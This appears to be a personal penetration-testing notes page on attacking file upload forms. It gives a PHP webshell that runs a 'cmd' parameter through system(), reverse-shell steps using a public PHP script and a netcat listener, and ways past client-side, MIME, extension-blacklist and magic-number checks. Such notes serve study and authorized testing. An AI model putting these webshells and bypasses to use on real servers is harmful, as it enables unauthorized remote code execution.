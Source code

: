 - websites providing an upload functionality which are not validating the user input properly 
- possibilities:
	- overwriting existing files
	- uploading and executing webshells or reverse shells 

# Overwriting Files
- occurs when the server is not checking if the file name already exists or if the server does not append a unique timestamp to the filename

# Uploading shells on a server 
1. search web directories where the file is located (but modern websites just serve the file from the backend) e.g. `uploads` / `resources` etc. 
	- maybe if look after uploading a valid path where it is taken from or where you are redirected at
	- use gobuster to enumerate directories [Directory and Files Enumeration](Directory%20and%20Files%20Enumeration.md)

## Webshell for RCE 
- [Remote Code Execution](../Remote%20Code%20Execution.md)
- create vulnerable file which is written in the same language as the backend and takes a parameter which is executed on the server e.g.:
```php
<?php  
    echo system($_GET["cmd"]);  
?>
```
- upload the file to the server named e.g.: `shell.php`
- execute commands like: `http://URL/uploads/shell.php?cmd=whoami`

## Reverse Shell
- [Reverse Shell](Reverse%20Shell.md)
- locally listen on a port for a connection from the vulnerable computer: `nv -lnvp PORT`
- create vulnerable file which is written in the same language as the backend. for example for PHP: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php and change the your IP and PORT
- upload the file to the server named e.g.: `shell.php`
- initiate the connection from the vulnerable computer by running the script by accessing the file in the browser: `http://URL/uploads/shell.php`


# Bypassing Client-Side Filtering
Example: 1.  have a look the source code where the validation happens
   ![](attachments/Pasted%20image%2020230618032340.png)
   ![](attachments/Pasted%20image%2020230618032404.png)
which is validating if the file type is `image/png`

## Using Curl

```curl
curl -d @filename [URL]
```
or 
```curl
curl -F logo=@filename [URL]
```

-F for multipart/form-data

With [Burp Suite](Burp%20Suite.md) you can see which request parameter needs to be send with

## Turn off Javascript in your browser 
mostly not suitable because most websites require JS to run properly

## Intercept and modify the incoming page
- using [Burp Suite](Burp%20Suite.md)
- intercept the incoming web page and strip out the Javascript filter before it has a chance to run
1. open BurpSuite and activate the Proxy, add the scope and so on
2. if the javascript file is send in a different file we need to remove the `^js$|` from the ignored file extensions in the `Proxy Options -> Intercept Client Requests`:
   ![](attachments/Pasted%20image%2020230618034851.png)
3. intercept the response to the request (to intercept the requested java validation file) make sure to remove the cache to fetch the js files again:
   ![](attachments/Pasted%20image%2020230618035332.png)
4.    remove filter and forward request:
   ![](attachments/Pasted%20image%2020230618035450.png)
   ![](attachments/Pasted%20image%2020230618035539.png)
5. upload the file `shell.png`
   

## Intercept and modify the file upload
- load webpage as normal (without intercepting it before)
- intercept the file upload 
1. change filetype to JPG as MIME type is based on the file extension `shell.jpg`
2. select the file (filter is allowing that)
3. intercept upload request with [Burp Suite](Burp%20Suite.md)
4. change filename from `shell.jpg` to `shell.php` and change Content-Type (from `image/jpeg`) to `text/x-php`:
   ![](attachments/Pasted%20image%2020230618040315.png)
   ![](attachments/Pasted%20image%2020230618040343.png)


# Bypassing Server-Side Filtering
- we mostly dont have the source code, so we have to try it out

## Blacklist
- some servers have a blacklist. (a whitelist would be better)
- here are probably not all file extensions flagged. eg:
```php
<?php  
    //Get the extension  
    $extension = pathinfo($_FILES["fileToUpload"]["name"])["extension"];  
    //Check the extension against the blacklist -- .php and .phtml  
    switch($extension){  
        case "php":  
        case "phtml":  
        case NULL:  
            $uploadFail = True;  
            break;  
        default:  
            $uploadFail = False;  
    }  
?>
```
- Here we could just use a file extension like `php5` as you see possible php file extensions: https://en.wikipedia.org/wiki/PHP

## Logic Flaw in validation
- some webpages are just checking the first `.` and the file extension after that, which you could bypass like `shell.png.php`

## Magic Numbers
- more accurate way of determining the contents of a file in comparison to the file extension or MIME type
- The "magic number" of a file is a string of bytes at the very beginning of the file content which identify the content
- e.g. a PNG file would have these bytes at the very top of the file: `89 50 4E 47 0D 0A 1A 0A`  (with the `hexeditor`)
  ![](attachments/Pasted%20image%2020230618044325.png)
  https://en.wikipedia.org/wiki/List_of_file_signatures
- check the file type of our `shell.php` -> `file shell.php` output: shell.php: PHP script, Unicode text, UTF-8 text
- write `AAAAAAAA` at the beginning of the file (because A is 41 and we need that place 8 times to replace it with `89 50 4E 47 0D 0A 1A 0A`)
  ```php
AAAAAAAA
<?php  
    echo system($_GET["cmd"]);  
?>

```
`file shell.php` -> shell.php: Unicode text, UTF-8 text
![](attachments/Pasted%20image%2020230618050144.png) 
- use the `hexeditor` to edit the `41 41 41 41 41 41 41 41` to `89 50 4E 47 0D 0A 1A 0A`
  ![](attachments/Pasted%20image%2020230618050611.png)
`file shell.php` -> shell.php: data
```php
�PNG
▒

<?php  
    echo system($_GET["cmd"]);  
?>

```

